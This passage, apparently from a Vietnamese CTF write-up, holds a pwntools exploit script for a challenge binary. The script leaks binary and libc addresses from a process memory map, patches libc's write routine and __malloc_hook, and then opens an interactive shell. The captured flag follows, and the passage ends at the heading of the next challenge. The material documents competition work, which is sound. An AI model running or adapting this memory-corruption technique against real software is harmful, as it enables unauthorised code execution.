 Khi này nếu `syscall` ở `write+21` trả về giá trị > 0 thì thay vì `ret` nó sẽ thực thi đoạn code từ `write+32`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal")
libc = ELF("./libc.so.6")
gs="""
"""
def start():
	if args.LOCAL:
		p=process(e.path)
	elif args.GDB:
		p = gdb.debug(e.path,gdbscript=gs)
		pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p
p = start()
p.recvuntil(b"For otherwise I will surely expire\n")
e.address = int(p.recv(12),16)
p.recvuntil(b"rw-p 00003000 00:106 566730                    /home/user/chal\n")
p.recvline()
p.recvline()
libc.address = int(p.recv(12),16)
p.recvuntil(b"rw-p 00218000 00:106 567509                    /usr/lib/x86_64-linux-gnu/libc.so.6\n")
p.recvline()
dark = int(p.recv(12),16)+0x758
p.recvuntil(b"[vsyscall]\n")
log.success(f"{hex(e.address)}")
log.success(f"{hex(libc.address)}")
log.success(f"{hex(dark)}")

p.sendline(f"{hex(libc.sym.__GI___libc_write+71)} 1".ljust(63).encode())
sleep(1)
p.sendline(f"{hex(libc.sym.__GI___libc_write+31)} 1".ljust(63).encode())
sleep(1)
_ = f"{hex(libc.sym.__malloc_hook)} 100".encode()+b"\0" # write on malloc_hook -> rax > 0
p.sendline((_+(p32(1337).rjust(0x40-0x30-1-len(_),b"\x00"))))
p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/0851132a-0bf4-467b-b63c-f7afa471ba4c)

Flag: `CTF{y0ur_3xpl0itati0n_p0w3r_1s_0v3r_9000!!}`

## UBF

```
Please review and test this Unnecessary Binary Format (UBF)!
```
